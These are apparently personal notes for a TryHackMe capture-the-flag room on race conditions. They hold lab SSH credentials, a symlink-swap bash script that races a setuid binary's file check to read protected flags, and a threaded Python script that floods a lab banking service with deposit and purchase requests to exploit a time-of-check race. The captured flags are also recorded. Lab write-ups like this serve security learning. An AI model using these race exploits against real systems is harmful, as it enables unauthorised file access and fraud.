 [TryHackMe | Race Conditions](https://tryhackme.com/room/raceconditions)

![[Pasted image 20230610070705.png]]

![[Pasted image 20230610070739.png]]

![[Pasted image 20230610070805.png]]

```
10.10.202.229
```

![[Pasted image 20230610070902.png]]

```
ssh race@10.10.202.229
```

```
Username: race

Password: car
```

![[Pasted image 20230610071320.png]]

![[Pasted image 20230610071439.png]]

![[Pasted image 20230610071551.png]]

```
file anti_flag_reader
```

```
file flag
```

```
cat anti_flag_reader.c
```

![[Pasted image 20230610071824.png]]

```
python3 -m http.server
```

```
http://10.10.202.229:8000/
```

![[Pasted image 20230610072259.png]]

![[Pasted image 20230610072324.png]]

![[Pasted image 20230610072612.png]]

![[Pasted image 20230610072652.png]]

![[Pasted image 20230610072918.png]]

![[Pasted image 20230610073052.png]]

![[Pasted image 20230610073349.png]]

![[Pasted image 20230610073726.png]]

![[Pasted image 20230611214454.png]]

![[Pasted image 20230611214548.png]]

[# File Path Race Condition & How To Prevent It - bin 0x31](https://www.youtube.com/watch?v=5g137gsB9Wk)

[# Race Conditions - SY0-601 CompTIA Security+ : 1.3](https://youtu.be/zg_kTCOcinQ)

## 15082023Tue

```
ssh race@10.10.253.224
```

```
Username: race
Password: car
```

```
ln -sf ../walk/flag file
```
![[Pasted image 20230815002916.png]]
![[Pasted image 20230815004352.png]]
![[Pasted image 20230815004429.png]]

```
THM{R4c3_c0nd1710n5_1n_7h3_f1l35y573m!}
```

![[Pasted image 20230815004628.png]]
![[Pasted image 20230815004843.png]]

```
nano ex-run.sh
```

```
#!/bin/bash

touch run-cat2
/home/run/./cat2 run-cat2 &
usleep 200
ln -sf /home/run/flag run-cat2
wait
rm run-cat2
```
![[Pasted image 20230815005538.png]]

```
THM{R4c1n6_f4573r_7h4n_y0ur_53cur17y_ch3ck5}
```

```
../sprint/./bankingsystem
```
![[Pasted image 20230815005853.png]]

```
nmap -sT -p 1337 10.10.253.224
```
![[Pasted image 20230815010024.png]]

```
nano ex-sprint.py
```

```
import socket
import threading

def send_request(command):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        # Connect to the server at IP '10.10.23.206' and port 1337
        sock.connect(('10.10.253.224', 1337))  
        # Send the command to the server (encoded as bytes)
        sock.sendall(command.encode())  
        # Receive the response from the server (up to 1024 bytes)
        response = sock.recv(1024) 
        # Print the response after decoding it from bytes to string 
        print(response.decode())  
        # Close the socket connection
        sock.close()  
    except Exception as e:
        print(f"Error: {str(e)}")

def run_concurrent_operations():
    # The command to be sent to the server
    deposit = "deposit"  
    for i in range(1, 1000):
        # Create a new thread with the send_request function as the target
        t1 = threading.Thread(target=send_request, args=(deposit,))  
        # Start the thread, allowing it to run concurrently with other threads
        t1.start()  
    # Wait for all the threads to finish before moving forward
    t1.join()  

# Call the run_concurrent_operations function to execute the program
run_concurrent_operations()  
```
![[Pasted image 20230815012026.png]]
![[Pasted image 20230815011946.png]]
```
import socket
import threading

def send_request(command):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        # Connect to the server at IP '10.10.23.206' and port 1337
        sock.connect(('10.10.253.224', 1337))  
        # Send the command to the server (encoded as bytes)
        sock.sendall(command.encode())  
        # Receive the response from the server (up to 1024 bytes)
        response = sock.recv(1024) 
        # Print the response after decoding it from bytes to string 
        print(response.decode())  
        # Close the socket connection
        sock.close()  
    except Exception as e:
        print(f"Error: {str(e)}")

def run_concurrent_operations():
    # The commands to be sent to the server
    deposit = "deposit"  
    flag = "purchase flag"  
    for i in range(1, 1000):
        # Create a new thread with the send_request function as the target
        t1 = threading.Thread(target=send_request, args=(deposit,)) 
        t2 = threading.Thread(target=send_request, args=(flag,))  
        # Start the thread, allowing it to run concurrently with other threads
        t1.start()  
        t2.start()
    # Wait for all the threads to finish before moving forward
    t1.join()  
    t2.join()

# Call the run_concurrent_operations function to execute the program
run_concurrent_operations()  
```
![[Pasted image 20230815012448.png]]
![[Pasted image 20230815012521.png]]

```
THM{R4c1n6_f0r_7h47_5w337_m0n3y_$$$$$}
```

![[Pasted image 20230815012600.png]]

https://0xb0b.gitbook.io/writeups/tryhackme/race-conditions
